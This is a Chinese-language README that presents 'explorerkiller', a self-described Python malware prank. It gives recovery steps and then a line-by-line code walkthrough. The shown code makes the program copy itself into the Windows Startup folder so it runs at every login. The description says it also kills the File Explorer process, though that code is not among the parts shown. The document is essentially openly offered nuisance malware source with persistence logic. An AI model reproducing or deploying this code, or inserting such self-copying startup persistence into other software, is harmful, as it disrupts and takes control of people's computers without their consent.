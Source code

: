 # 文件资源管理器杀手（explorerkiller）
## 简介
这是一个基于python制作并编译的恶意程序。
## 安全提醒
玩归玩，闹归闹，别拿设备开玩笑。假如你不小心（故意不小心）将此病毒运行，其造成的破坏是可以修复的，修复方法：  
1.打开任务管理器（Ctrl+Shift+Esc），运行“explorer.exe”  
2.调出运行菜单（Win+R），输入“shell:startup”并打开，找到本程序并删除文件
## 原理与代码详解
### 导入库
```
import os  
import shutil  
import sys  
import subprocess  
```
os，shutil和sys库：用于获取启动文件夹路径并复制  
subprocess:用于结束文件资源管理器进程  
### 复制到启动文件夹
```
startup_folder = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup')
```
获取系统的启动文件夹路径  
```
script_name = os.path.basename(sys.argv[0])
```
获取程序名称  
```
def is_file_in_startup_folder(startup_folder, file_name):
    return file_name in os.listdir(startup_folder)
```
定义检查文件是否存在函数    
```
def copy_self_to_startup(startup_folder, script_path, script_name):
    destination_path = os.path.join(startup_folder, script_name)
    shutil.copyfile(script_path, destination_path)
    print(f"Copied {script_name} to {destination_path}")
```
定义复制文件函数  
```
if is_file_in_startup_folder(startup_folder, script_name):
    print("The file is already in the startup folder.")
else:
    copy_self_to_startup(startup_folder, script_path, script_name)
```






